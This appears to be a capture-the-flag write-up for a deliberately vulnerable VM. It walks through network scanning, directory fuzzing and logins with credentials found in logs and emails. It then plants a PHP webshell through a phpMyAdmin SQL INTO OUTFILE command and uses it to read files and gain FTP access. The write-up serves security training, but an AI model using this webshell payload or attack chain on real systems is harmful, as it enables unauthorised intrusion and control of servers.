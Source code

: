 # Writeup1

## 1. Finding the IP

> Please note that this section may differ depending on your network configuration.

First we get our network address
```
PS C:\Users\user> ipconfig
Carte réseau sans fil Wi-Fi :

   Suffixe DNS propre à la connexion. . . :
   Adresse IPv6. . . . . . . . . . . . . .: 2a04:cec0:10f7:c1d1:83b9:f706:901f:e740
   Adresse IPv6 temporaire . . . . . . . .: 2a04:cec0:10f7:c1d1:6919:2648:8564:bd77
   Adresse IPv6 de liaison locale. . . . .: fe80::9b0e:c803:3db7:d80c%17
   Adresse IPv4. . . . . . . . . . . . . .: 192.168.140.56
   Masque de sous-réseau. . . . . . . . . : 255.255.255.0
   Passerelle par défaut. . . . . . . . . : fe80::24a7:dbff:fec2:243%17
                                       192.168.140.206
```

In this case the network ip and mask are `192.168.140.0/24`

First we use `nmap -sn` to scan the network for all hosts
```
nmap -sn 192.168.140.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 17:35 CEST
Nmap scan report for 192.168.140.112
Host is up (0.0012s latency).
Nmap scan report for 192.168.140.206
Host is up (0.0066s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 43.33 seconds
```

We get two hosts, one is `192.168.140.206` which is the address present in the `ipconfig`, the other one is the VM

## 2. Look for running services

Let's scan this ip with `nmap`
```
nmap 192.168.140.112
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 18:18 CEST
Nmap scan report for 192.168.140.112
Host is up (0.00032s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

## 3. Fuzz access paths

Ports 80 and 443 are open which means a website is present on the machine, let's fuzz it with `dirb`

```
dirb https://192.168.140.112

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed May 29 18:20:23 2024
URL_BASE: https://192.168.140.112/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.140.112/ ----
+ https://192.168.140.112/cgi-bin/ (CODE:403|SIZE:291)
==> DIRECTORY: https://192.168.140.112/forum/
==> DIRECTORY: https://192.168.140.112/phpmyadmin/
+ https://192.168.140.112/server-status (CODE:403|SIZE:296)
==> DIRECTORY: https://192.168.140.112/webmail/

...
```

Let's access those links with our web browser

## 4. Forum Inspection

Here is `https://192.168.140.112/forum`

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245415659970494504/image.png?ex=6658ab38&is=665759b8&hm=4437c69e262c3006d8eefc7e4e374ebabb69ff27967e637a3e9966ba31a26262&)

After close inspection the `Problem login` topic is a log file containing what looks to be login credentials

```
...
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
...
```

These credentials allows us to connect to the forum as the user `lmezard`

## 5. Logging into the forum

> login: `lmezard`

> password: `!q\]Ej?*5K5cy*AJ`

After loggin in we get access to the user's profile which gives us an email

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245419184717037568/image.png?ex=6658ae80&is=66575d00&hm=43efedf37e46d8d4e5354e7b726f97dd2f186a7ffb1262281ffa2fe062617a80&)

We can try using this email and the password to access the webmail

## 6. Logging into the webmail

> login: `laurie@borntosec.net`

> password: `!q\]Ej?*5K5cy*AJ`

After loggin in we get access to two mails

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245421042978127872/image.png?ex=6658b03b&is=66575ebb&hm=146d9c4a8d086d886f912e08d7407ff3c4fe19b577ba3fdaa9cc8650025a7252&)


The `DB Access` mail contains login credentials

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

## 7. Logging into Phpmyadmin

> login: `root`

> password: `Fg-'kKXBj87E:aJ$`

After login into Phpmyadmin we get a full `root` access to all DBs in the service

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245429337885507604/image.png?ex=6658b7f5&is=66576675&hm=ad8556dd86f1f1d149a965c4b5a3911c976ba4e713965a8d8002838e090b62b3&)

Now we will try to get a `shell` to the machine by injecting a new `php` page into the forum that will execute the commands we give it

## 8.0 Injecting a webshell

We will use a SQL command to create a new file inside the forum pages directory

```SQL
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'FORUM_LOCATION/PAGE_LOCATION'
```

First we have to find the `FORUM_LOCATION` and `PAGE_LOCATION` to create the new page

Knowing the forum is using Apache, the app location is usually `/var/www`

Using `dirb` we can scan the forum for directories

```
dirb https://192.168.140.112/forum

---- Scanning URL: https://192.168.140.112/forum/ ----
+ https://192.168.140.112/forum/backup (CODE:403|SIZE:295)
+ https://192.168.140.112/forum/config (CODE:403|SIZE:295)
==> DIRECTORY: https://192.168.140.112/forum/images/
==> DIRECTORY: https://192.168.140.112/forum/includes/
+ https://192.168.140.112/forum/index (CODE:200|SIZE:4984)
+ https://192.168.140.112/forum/index.php (CODE:200|SIZE:4984)
==> DIRECTORY: https://192.168.140.112/forum/js/
==> DIRECTORY: https://192.168.140.112/forum/lang/
==> DIRECTORY: https://192.168.140.112/forum/modules/
==> DIRECTORY: https://192.168.140.112/forum/templates_c/
==> DIRECTORY: https://192.168.140.112/forum/themes/
==> DIRECTORY: https://192.168.140.112/forum/update/
```

Now we can try uploading the `shell.php` file on each directory using the command in `Phpmyadmin`

It only worked in `/forum/templaces_c` (the path is `/var/www/forum/templates_c`)

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245766116358230147/image.png?ex=6659f19b&is=6658a01b&hm=64619b75648fcce9189b2e93323053c70ace1c31b6af814b309132c53f7bc55a&)

Now we can use this script as a webshell passing `cmd=COMMAND_TO_EXECUTE` as argument

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245773173375369356/image.png?ex=6659f82d&is=6658a6ad&hm=3633da56275f67b5993db873478b677bc6f55c12655501dfc86d95aade5ee7dc&)

## 9. Getting a FTP access

Now that we have a shell access as user `www-data`, we will look into the machine to find usefull information

Starting in `/home/` we can see multiple users

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245779549157855376/image.png?ex=6659fe1d&is=6658ac9d&hm=952aa37be837c06746e5deb5886943c3671fe882f5896444b7f0b4434a78abd9&)

We have `read` permissions only on the `/home/LOOKATME` directory

It contains a single file `password` with the following content

```
lmezard:G!@M6f4Eatau{sF"
```

This looks like credentials, we can use them to connect to the FTP 

> login: `lmezard`

> password: `G!@M6f4Eatau{sF"`

![](https://cdn.discordapp.com/attachments/1077902420316799028/1246129227523293194/image.png?ex=665b43c7&is=6659f247&hm=12cfea29d5a32693384d5e39088dd7fb141615cf9d78de54894ec423c60b325e&)

